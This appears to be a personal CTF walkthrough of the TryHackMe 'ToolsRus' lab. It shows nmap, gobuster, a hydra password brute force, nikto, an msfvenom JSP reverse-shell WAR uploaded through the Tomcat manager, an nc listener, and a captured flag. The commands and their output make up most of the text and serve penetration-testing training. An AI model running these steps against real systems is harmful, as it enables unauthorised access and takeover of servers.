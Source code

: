 kali@kali:~/oscptraining/tryhackme/toolsrus$ nmap -sV -sC -o nmap 10.10.141.158
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-23 23:55 EDT
Nmap scan report for 10.10.141.158
Host is up (0.33s latency).
Not shown: 996 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b8:d9:8f:7a:22:06:90:8f:8e:25:96:08:a2:31:79:89 (RSA)
|   256 b5:a4:e1:b5:73:e0:a4:87:8a:4a:1b:0e:c1:1f:04:46 (ECDSA)
|_  256 aa:18:05:5c:26:1e:46:3f:0e:34:67:a6:7d:6a:59:fa (ED25519)
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
1234/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/7.0.88
8009/tcp open  ajp13   Apache Jserv (Protocol v1.3)
|_ajp-methods: Failed to get a valid response for the OPTION request
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 53.23 seconds

gobuster dir -u 10.10.141.158  -x php,txt,cgi,css,py,html -w /usr/share/dirb/wordlists/common.txt

gobuster dir -e -u http://10.10.141.158/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
 

http://10.10.141.158/guidelines (Status: 301)

the following site has a basic authentication in place, i guess we need to use hydra 
10.10.141.158/protected

ali@kali:~/oscptraining/tryhackme/toolsrus$ hydra -l bob -P /usr/share/wordlists/rockyou.txt 10.10.141.158 http-get /protected/
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-10-24 01:07:25
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-get://10.10.141.158:80/protected/
[80][http-get] host: 10.10.141.158   login: bob   password: bubbles
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-10-24 01:07:30

bob;bubbles
we are able to get into the site but it says the page has been moved to a different port
lets try to use nikto (it took a really long time though)

kali@kali:~/oscptraining/tryhackme/toolsrus$ nikto -h 10.10.141.158:1234
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          10.10.141.158
+ Target Hostname:    10.10.141.158
+ Target Port:        1234
+ Start Time:         2020-10-24 01:18:34 (GMT-4)
---------------------------------------------------------------------------
+ Server: Apache-Coyote/1.1
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ OSVDB-39272: /favicon.ico file identifies this app/server as: Apache Tomcat (possibly 5.5.26 through 8.0.15), Alfresco Community
+ Allowed HTTP Methods: GET, HEAD, POST, PUT, DELETE, OPTIONS 
+ OSVDB-397: HTTP method ('Allow' Header): 'PUT' method could allow clients to save files on the web server.
+ OSVDB-5646: HTTP method ('Allow' Header): 'DELETE' may allow clients to remove files on the web server.
+ Web Server returns a valid response with junk HTTP methods, this may cause false positives.
+ /examples/servlets/index.html: Apache Tomcat default JSP pages present.
+ OSVDB-3720: /examples/jsp/snp/snoop.jsp: Displays information about page retrievals, including other users.
+ /manager/html: Default Tomcat Manager / Host Manager interface found
+ /host-manager/html: Default Tomcat Manager / Host Manager interface found
+ /manager/status: Default Tomcat Server Status interface found
+ 8195 requests: 0 error(s) and 13 item(s) reported on remote host
+ End Time:           2020-10-24 02:12:32 (GMT-4) (3238 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested

lets try to scan manager/html


going onto http://10.10.141.158:1234/manager/html
it seems that we are able to upload some files to create a reverse shell

created a payload to upload to the site
kali@kali:~/oscptraining/tryhackme/toolsrus$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.8.102.117 LPORT=4444 -f war > toolsrus.war
Payload size: 1091 bytes
Final size of war file: 1091 bytes

uploaded it, set up a listener
nc -lvnp 4444

access this
http://10.10.141.158:1234/toolsrus/

and tada we are in, surprised we got root access though

set up the shell with this! (optional)
$ python -c 'import pty; pty.spawn("/bin/bash")'

ff1fc4a81affcc7688cf89ae7dc6e0e1


